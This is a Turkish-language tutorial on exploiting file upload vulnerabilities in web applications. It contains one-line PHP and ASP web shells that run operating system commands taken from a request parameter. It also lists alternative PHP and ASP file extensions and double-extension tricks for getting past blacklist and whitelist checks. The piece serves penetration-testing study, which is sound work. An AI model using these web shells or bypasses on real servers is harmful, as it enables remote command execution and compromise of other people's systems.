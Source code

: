 # Dosya Yükleme Saldırıları
Dosya yükleme zafiyetlerinin en temel nedeni, yüklenen dosyaların türü ve içeriğinin yeterli düzeyde doğrulanmamasıdır. Bu durumda saldırganlar herhangi bir dosya tipini yükleyebilir ve backend sunucuda zararlı kod çalıştırabilir. Bazı uygulamalar yalnızca belirli dosya türlerine izin verir. Ancak bu durumda bile zafiyetler söz konusu olabilir. Örneğin:
- Dosya yükleme üzerinden XSS veya XXE gibi farklı açıkların tetiklenmesi.
- Arka uç sunucuya yönelik DoS (Denial of Service) saldırılarının gerçekleştirilmesi.

# Dosya Yükleme Zafiyetlerinin Sömürüsü
Zafiyetin istismar edilebilmesi için ilk adım, uygulamanın hangi dil ve platform üzerinde çalıştığının tespit edilmesidir. zararlı script’ler, yalnızca sunucunun çalıştığı programlama diliyle uyumlu olduğunda kullanılabilir. Genellikle bu tespit, sayfa uzantıları üzerinden yapılabilir (.php, .asp, .aspx vb.). Ancak bazı modern framework’lerde web routes nedeniyle bu uzantılar gizlenmiş olabilir. Uygulama PHP tabanlı olduğunu varsayalım, dosya yükleme fonksiyonunun php uzantılı dosyaları kabul edip etmediğini test etmek için minimal bir reverse shell yüklenebilir:
```php
<?=`$_GET[0]`?> // 0 parametresini URL'den alır ve değeri işletim sistemi komutu olarak çalıştırır
```

Veya ASP için aşağıdaki reverse shell kullanılabilir:
```c#
<% eval request('cmd') %>
```

## İstemci Tarafı Dosya Uzantısı Kontrolü
İstemci tarafında çalışan her kod bizim kontrolümüzdedir. Web sunucusu front-end kodunu gönderir, ancak kod tarayıcıda çalıştırılır. Eğer back-end tarafında doğrulama yoksa, teorik olarak herhangi bir dosya türünü yükleyebiliriz.

## Back-end Tarafında Dosya Uzantısı Doğrulama
Genellikle iki yaygın yöntem vardır:
- blacklist ve whitelist kontrolü.

Ayrıca, doğrulama dosya tipini veya içerik tipini kontrol edebilir. En zayıf doğrulama yöntemi, sadece dosya uzantısını kara listeye karşı kontrol etmektir. 

### Blacklist
Örnek PHP kodu:
```php
$fileName = basename($_FILES["uploadFile"]["name"]);
$extension = pathinfo($fileName, PATHINFO_EXTENSION);
$blacklist = array('php', 'php7', 'phps');

if (in_array($extension, $blacklist)) {
    echo "File type not allowed";
    die();
}
```

Bu kod, dosya uzantısını ($extension) alır ve black list uzantıları ile ($blacklist) karşılaştırır. Eğer listede varsa yükleme engellenir.

PHP bütün dosya uzantıları:
```
php
.php3
.php4
.php5
.php7
.pht
.phps
.phar
.phpt
.pgif
.phtml
.phtm
.inc
```

ASP dosya uzantıları:
```
.asp
.aspx
.config
.cer # (IIS <= 7.5)
.asa # (IIS <= 7.5)
shell.aspx;1.jpg # (IIS < 7.0)
shell.soap
```

### Whitelist
Whitelist Örneği:
```php
$fileName = basename($_FILES["uploadFile"]["name"]);

if (!preg_match('^.*\.(jpg|jpeg|png|gif)', $fileName)) {
    echo "Only images are allowed";
    die();
}
```

Kod, dosya adının whitelisted resim uzantılarını içerip içermediğini regex ile kontrol ediyor. Sorun şu regex yalnızca dosya adının uzantıyı içerip içermediğine bakıyor, dosya adının uzantı ile bitip bitmediğini kontrol etmiyor. Regex sadece dosya adında izin verilen uzantıyı aradığı için, basit bir yöntem double extension kullanmak. Örneğin .jpg izinliyse, dosya adını shell.jpg.php yapabiliriz.

Bazı uygulamalar daha katı regex kullanır:
```php
if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)) { ... }
```

Bu regex yalnızca dosya adının son uzantısını kontrol eder. Önceki saldırı burada işe yaramaz. Ancak bazı durumlarda, web sunucusu konfigürasyonu nedeniyle hala istismar edilebilir.

Örnek Apache Konfigürasyonu:
```
<FilesMatch ".+\.ph(ar|p|tml)">
    SetHandler application/x-httpd-php
</FilesMatch>
```

